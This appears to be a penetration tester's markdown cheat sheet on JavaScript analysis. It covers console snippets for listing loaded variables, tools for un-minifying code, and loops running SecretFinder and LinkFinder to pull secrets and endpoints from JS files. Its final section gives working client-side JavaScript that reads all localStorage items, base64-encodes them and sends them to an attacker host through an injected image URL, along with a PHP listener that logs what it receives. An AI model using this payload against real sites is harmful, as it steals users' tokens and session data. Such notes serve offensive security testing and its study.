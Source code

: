 # All Stuff JS
## Debugging
To list all currently loaded JavaScript variables in the browsers console:   
```
for(var b in window) {
if(window.hasOwnProperty(b)) console.log(b);
}
```
Another method with more output:   
```
var n, arg, name;
console.log("typeof this = " + typeof this);
for (name in this) {
    console.log("this[" + name + "]=" + this[name]);
}
for (n = 0; n < arguments.length; ++n) {
    arg = arguments[n];
    console.log("typeof arguments[" + n + "] = " + typeof arg);
    for (name in arg) {
        console.log("arguments[" + n + "][" + name + "]=" + arg[name]);
    }
}
```
## Un-Minify JS code
Tool: https://github.com/jehna/humanify   
Blog: https://thejunkland.com/blog/using-llms-to-reverse-javascript-minification   

## Searching for low hanging fruits
### TODO: Test JSLuice
https://github.com/BishopFox/jsluice

### Secretfinder
`$ for url in $(cat /root/Desktop/urls_js.txt); do python3 SecretFinder.py -i $url -o cli; done`   
Using a proxy:   
`$ for url in $(cat /home/kali/Desktop/urls_js.txt); do python3 SecretFinder.py -i $url -p http://localhost:8080 -o cli; done`    

### Linkfinder
`# for url in $(cat /root/Desktop/urls_js.txt); do python3 linkfinder.py -i $url -o cli; done`   
Note: If you get SSL deprecation errors, run it with: `python3 -W ignore linkfinder.py`   

## Sending Local Storage Items to Remote Server
### JavaScript (client) 
```
newString = "";
for (var a in localStorage) {
    newString += a + "="
    newString += localStorage[a];
    // Encode the String with base64
    var encodedString = btoa(unescape(encodeURIComponent(newString)))
    document.write('<img src="https://10.10.10.10/attackerswebapp/receiver.php?str='+encodedString+'">');
    newString = "";
}
```
### PHP listener (server)
```
<?php
$encodedstr = $_GET["str"];
$file = fopen('log.txt', 'a');
$string = base64_decode($encodedstr);
fwrite($file, $string . "\n\n");
?>
```
